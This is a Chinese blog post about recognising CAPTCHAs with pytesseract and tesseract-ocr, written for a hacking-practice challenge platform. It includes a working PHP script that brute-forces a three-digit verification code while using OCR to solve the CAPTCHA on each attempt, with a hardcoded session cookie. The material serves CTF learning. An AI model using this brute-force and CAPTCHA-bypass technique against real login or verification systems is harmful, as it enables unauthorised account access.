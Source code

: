 最近在做网络信息安全攻防学习平台的题目，发现有些题居然需要用到验证码识别，这玩意以前都觉得是高大上的东西，一直没有去研究，这次花了点时间研究了一下，当然只是一些基础的东西，高深的我也不会，分享一下给大家吧。

这次验证码识别，我使用的python来实现的，发现python果然是强大无比，但是在验证码识别库的安装上面有点小问题。

关于python验证码识别库，网上主要介绍的为pytesser及pytesseract，其实pytesser的安装有一点点麻烦，所以这里我不考虑，直接使用后一种库。

python验证码识别库安装

要安装pytesseract库，必须先安装其依赖的PIL及tesseract-ocr，其中PIL为图像处理库，而后面的tesseract-ocr则为google的ocr识别引擎。

1、PIL 下载地址：

PIL-1.1.7.win-amd64-py2.7.exe

PIL-1.1.7.win32-py2.7.exe

或者直接使用pillow来代替，使用方法基本没有什么区别。

http://www.lfd.uci.edu/~gohlke/pythonlibs/#pillow

2、tesseract-ocr下载地址：

tesseract-ocr-setup-3.02.02.exe

3、pytesseract安装

直接使用pip install pytesseract安装即可，或者使用easy_install pytesseract

python验证码识别方法

#!/usr/bin/env python
# -*- coding: gbk -*-
# -*- coding: utf_8 -*-
# Date: 2014/11/27
# Created by 独自等待
# 博客 http://www.waitalone.cn/
try:
    import pytesseract
    from PIL import Image
except ImportError:
    print '模块导入错误,请使用pip安装,pytesseract依赖以下库：'
    print 'http://www.lfd.uci.edu/~gohlke/pythonlibs/#pil'
    print 'http://code.google.com/p/tesseract-ocr/'
    raise SystemExit

image = Image.open('vcode.png')
vcode = pytesseract.image_to_string(image)
print vcode



识别率还挺高的，当然这也和验证码本身有关，因为这个验证码设计的比较容易识别。

![](D:/download/youdaonote-pull-master/data/Technology/Python/pytesser/images/B68508B6C2A2437A8EC101A79957A645128040728552.png)

python识别验证码，就是这么简单，大家还不快来试一试？

php验证码识别方法

关于php的验证码识别，这个我没有深入研究，但是用python实现完了以后就明白了，其实只要借助ocr识别库就可以了，直接贴上之前脚本关第9关的代码。

python实现的验证码识别破解实例请关注：

http://www.waitalone.cn/security-scripts-game.html

<?php
/**
 * Created by 独自等待
 * Date: 2014/11/20
 * Time: 9:27
 * Name: ocr.php
 * 独自等待博客：http://www.waitalone.cn/
 */
error_reporting(7);
if (!extension_loaded('curl')) exit('请开启CURL扩展,谢谢!');
crack_key();

function crack_key()
{
    $crack_url = 'http://1.hacklist.sinaapp.com/vcode7_f7947d56f22133dbc85dda4f28530268/login.php';
    for ($i = 100; $i <= 999; $i++) {
        $vcode = mkvcode();
        $post_data = array(
            'username' => 13388886666,
            'mobi_code' => $i,
            'user_code' => $vcode,
            'Login' => 'submit'
        );
        $response = send_pack('POST', $crack_url, $post_data);
        if (!strpos($response, 'error')) {
            system('cls');
            echo $response;
            break;
        }else{
            echo $response."\n";
        }
    }
}


function mkvcode()
{
    $vcode = '';
    $vcode_url = "http://1.hacklist.sinaapp.com/vcode7_f7947d56f22133dbc85dda4f28530268/vcode.php";
    $pic = send_pack('GET', $vcode_url);
    file_put_contents('vcode.png', $pic);
    $cmd = "\"D:\\Program Files (x86)\\Tesseract-OCR\\tesseract.exe\" vcode.png vcode";
    system($cmd);
    if (file_exists('vcode.txt')) {
        $vcode = file_get_contents('vcode.txt');
        $vcode = trim($vcode);
        $vcode = str_replace(' ', '', $vcode);
    }
    if (strlen($vcode) == 4) {
        return $vcode;
    } else {
        return mkvcode();
    }
}

//数据包发送函数
function send_pack($method, $url, $post_data = array())
{
    $cookie = 'saeut=218.108.135.246.1416190347811282;PHPSESSID=6eac12ef61de5649b9bfd8712b0f09c2';
    $curl = curl_init();
    curl_setopt($curl, CURLOPT_URL, $url);
    curl_setopt($curl, CURLOPT_HEADER, 0);
    curl_setopt($curl, CURLOPT_RETURNTRANSFER, 1);
    curl_setopt($curl, CURLOPT_COOKIE, $cookie);
    if ($method == 'POST') {
        curl_setopt($curl, CURLOPT_POST, 1);
        curl_setopt($curl, CURLOPT_POSTFIELDS, $post_data);
    }
    $data = curl_exec($curl);
    curl_close($curl);
    return $data;
}






文中用到的文件下载

点我下载

相关文章：

http://vipscu.blog.163.com/blog/static/18180837220134234528457/ 

http://drops.wooyun.org/tips/141 